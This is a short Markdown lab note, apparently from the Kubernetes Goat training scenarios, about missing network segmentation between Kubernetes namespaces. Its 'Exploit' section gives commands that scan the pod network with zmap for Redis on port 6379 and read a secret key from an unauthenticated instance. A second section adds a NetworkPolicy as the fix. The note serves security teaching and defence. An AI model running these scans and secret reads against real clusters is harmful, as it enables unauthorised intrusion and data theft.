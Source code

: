 # K07:  Missing Network Segmentation Controls

## Kubernetes namespaces bypass

Most people assume that resources in Kubernetes namespaces are secure and not able to access each other. Wrong! 

By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating boundaries like Network Security Policies. This vournability could lead to critical resources being exposed internally. 

## Exploit

In this scenario, you will access resource in other namespaces.

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh

# Obtain MAC address of interfece eth0
ifconfig | grep eth0 | awk '{print $1 "\n" $5}' && ip -f inet addr show eth0 | awk '/inet / {print $2}'

# Get IPs for this port
rm /etc/zmap/zmap.conf
zmap --target-port 6379 --output-file results.csv 10.244.120.78/16
zmap --target-port 6379 --output-file results.csv --interface eth0 --gateway-mac 7E:90:BA:00:9C:A8 10.244.120.78/16
cat results.csv | sort

# Connect to Redis DB
redis-cli -h IP

# Get secret
IP:6379>keys *
IP:6379>GET SECRETSTUFF
```

## Secure Network Boundaries using NSP

```shell
# Create pod and svc
kubectl run --image=nginx website --labels app=website --expose --port 80

# Call service from different pod on the same network
kubectl run --rm -it --image=alpine temp -- ash
wget -qO- --timeout=1 http://website

# Deny ingress from podSelector
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: website
spec:
  podSelector:
    matchLabels:
      app: website
  ingress: []
EOF

# Test
kubectl run --rm -it --image=alpine temp -- sh
wget -qO- --timeout=1 http://website

# Clean up
kubectl delete pod,service,networkpolicy website
```

## Links

- [Kubernetes namespaces bypass](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
- [Secure Network Boundaries using NSP](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-20/secure-kubernetes-using-network-security-policy/welcome)